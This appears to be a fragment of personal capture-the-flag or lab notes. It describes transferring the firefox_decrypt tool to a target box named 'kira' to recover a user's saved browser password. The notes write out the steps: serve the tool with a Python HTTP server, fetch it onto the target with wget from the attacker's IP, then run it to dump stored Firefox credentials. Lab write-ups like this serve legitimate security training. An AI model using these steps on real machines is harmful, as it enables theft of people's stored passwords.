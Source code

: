     <figure><img src=".gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

    * we have to upload the firefox\_decrypt tool into kira box
      * after running it, we should obtain Willy PW from browser history...
* Uploading firefox\_decrypt tool
  * git clone firefox%decrypt (URL from github repo)
  * python3 -m http.server
  * wget [http://10.10.15.83:8000/firefox\_decrypt.py](http://10.10.15.83:8000/firefox\_decrypt.py)
  *   python 3.9 firefox\_decrypt.py

      * option 2

      <figure><img src=".gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>
